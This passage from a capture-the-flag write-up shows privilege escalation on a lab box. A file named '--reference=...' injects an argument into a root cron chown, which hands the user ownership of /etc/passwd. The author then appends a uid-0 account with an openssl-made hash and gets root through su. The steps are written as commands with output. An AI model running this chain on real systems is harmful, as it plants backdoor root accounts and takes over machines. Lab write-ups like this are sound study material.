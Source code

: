     [sec@shrek src]$ ln -s /home/sec/user.txt 
    [sec@shrek src]$ touch -- --reference=user.txt
    [sec@shrek src]$ ln -s /etc/passwd
    [sec@shrek src]$ ls -l
    total 4
    lrwxrwxrwx 1 sec  users 11 Jul 17 02:41  passwd -> /etc/passwd
    -rw-r--r-- 1 sec  users  0 Jul 17 02:41 '--reference=user.txt'
    -rw-r--r-- 1 root root  91 Aug 22  2017  thoughts.txt
    lrwxrwxrwx 1 sec  users 18 Jul 17 02:41  user.txt -> /home/sec/user.txt



Once the cron runs, `/etc/passwd` is now owned by sec:



    [sec@shrek src]$ ls -l /etc/passwd
    -rw-r--r-- 1 sec users 968 Jul 17 02:40 /etc/passwd



*\[1 July 2023 update\]*: It seems that sometime over the years the
ownership of `user.txt` has changed from `sec:user` to `root:root`, so
the commands as shown above don't work. Thanks to InvertedClimbing for
the tip on this one! Any other file owned by sec would still work. I
just need to give it a file whose permissions I want to copy. So
something like this will still work:



    [sec@shrek src]$ ln -s /home/sec/.bashrc
    [sec@shrek src]$ touch -- --reference=.bashrc
    [sec@shrek src]$ ln -s /etc/passwd



### passwd

Now I just need to add a root user to `/etc/passwd`. I'll create a hash:



    [sec@shrek src]$ openssl passwd -1 0xdf
    $1$LDbqXSxU$TnJPI4lNp/q00QKZYZw0G.



Now I'll add the string to `passwd`, with uid and gui both 0 for root:



    [sec@shrek src]$ echo 'oxdf:$1$LDbqXSxU$TnJPI4lNp/q00QKZYZw0G.:0:0:pwned:/root:/bin/bash' >> /etc/passwd



Now use `su` to become root:



    [sec@shrek src]$ su oxdf                                                                 
    Password:                                                                                
    [root@shrek src]#

